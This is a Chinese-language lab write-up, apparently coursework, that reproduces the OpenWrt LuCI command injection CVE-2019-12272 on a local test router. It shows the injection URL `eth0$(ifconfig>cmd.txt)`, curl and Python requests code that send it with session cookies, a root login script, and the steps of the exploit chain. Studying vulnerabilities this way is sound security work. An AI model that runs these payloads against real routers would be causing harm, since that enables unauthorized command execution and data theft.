

# Rep0x04(Part-2) 漏洞的复现与利用（CVE-2019-12272）

### 1. 实验过程

- **漏洞环境安装**

    - 根据 [存在漏洞的固件](https://archive.openwrt.org/chaos_calmer/15.05.1/x86/64/openwrt-15.05.1-x86-64-combined-ext4.img.gz) 安装 `OpenWrt` 镜像（具体操作步骤详见 [idのchap0x01实验报告](https://github.com/CUCCS/2021-mis-public-ididChan/tree/chap0x01/chap0x01)）
    
    - 结果展示

        

        

        

        

        

        

        

        网络连通性检验：

        

- **漏洞复现**

    - 使用管理员账号登录LuCI

    - 使用浏览器访问 `http://192.168.56.72/cgi-bin/luci/;stok=204d72cf7576db1c22b8bce8d3392ea3/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt)` 触发漏洞

    - 访问 `http://192.168.56.72/cmd.txt` 获取上一步命令执行的结果

        

- **漏洞利用**

    - 通过 Chrome 浏览器开发者工具的「Copy as curl」功能，将漏洞复现的请求复制为 `curl 命令`
    
        

        ```
        ccurl 'http://192.168.56.72/cgi-bin/luci/;stok=204d72cf7576db1c22b8bce8d3392ea3/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt)' \
            -H 'Connection: keep-alive' \
            -H 'Pragma: no-cache' \
            -H 'Cache-Control: no-cache' \
            -H 'Upgrade-Insecure-Requests: 1' \
            -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36' \
            -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
            -H 'Accept-Language: zh-CN,zh;q=0.9' \
            -H 'Cookie: sysauth=784d90e9f949468fb3150d8ee0d9a961' \
            --compressed \
            --insecure
        ```

    - 通过 [第三方网站](https://curl.trillworks.com/) 将 `curl 命令` 转换为 Python requests 代码 ，再稍加改动添加继续访问 `http://192.168.56.72/cmd.txt` 并打印服务器响应，得到如下结果：

        ```
        import requests

        cookies = {
            'sysauth': '784d90e9f949468fb3150d8ee0d9a961',
        }

        headers = {
            'Connection': 'keep-alive',
            'Pragma': 'no-cache',
            'Cache-Control': 'no-cache',
            'Upgrade-Insecure-Requests': '1',
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36',
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
            'Accept-Language': 'zh-CN,zh;q=0.9',
        }

        response = requests.get('http://192.168.56.72/cgi-bin/luci/;stok=204d72cf7576db1c22b8bce8d3392ea3/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt)', headers=headers, cookies=cookies, verify=False)
        ```

    - 重新登陆，获取漏洞重放所需的 `luci_username` / `luci_password` 的参数信息，并按照相同的方式转化为 Python request 代码

        

        ```
        import requests

        headers = {
            'Connection': 'keep-alive',
            'Pragma': 'no-cache',
            'Cache-Control': 'no-cache',
            'Upgrade-Insecure-Requests': '1',
            'Origin': 'http://192.168.56.72',
            'Content-Type': 'application/x-www-form-urlencoded',
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36',
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
            'Referer': 'http://192.168.56.72/cgi-bin/luci',
            'Accept-Language': 'zh-CN,zh;q=0.9',
        }

        data = {
            'luci_username': 'root',
            'luci_password': ''
        }

        response = requests.post('http://192.168.56.72/cgi-bin/luci', headers=headers, data=data, verify=False)
        ```

    - 由以上两个步骤获得的结果可推断利用 `CVE-2019-12272` 的基本步骤如下：

        - 使用 ( `username` , `password` ) 登录

        - 从 `Response` 中获取 `sysauth` && `stok`

        - 使用以上信息发送请求，将指令回显写入文件
        
        - 访问，窃取私密信息

    
    - 面向对象的漏洞利用代码编写 [【View Code】](../code/CVE-hack.py)

        漏洞利用效果预览：

        

        

### 2. 参考资料

- [OpenWrt LuCI 命令操作系统命令注入漏洞](http://www.cnnvd.org.cn/web/xxk/ldxqById.tag?CNNVD=CNNVD-201905-962)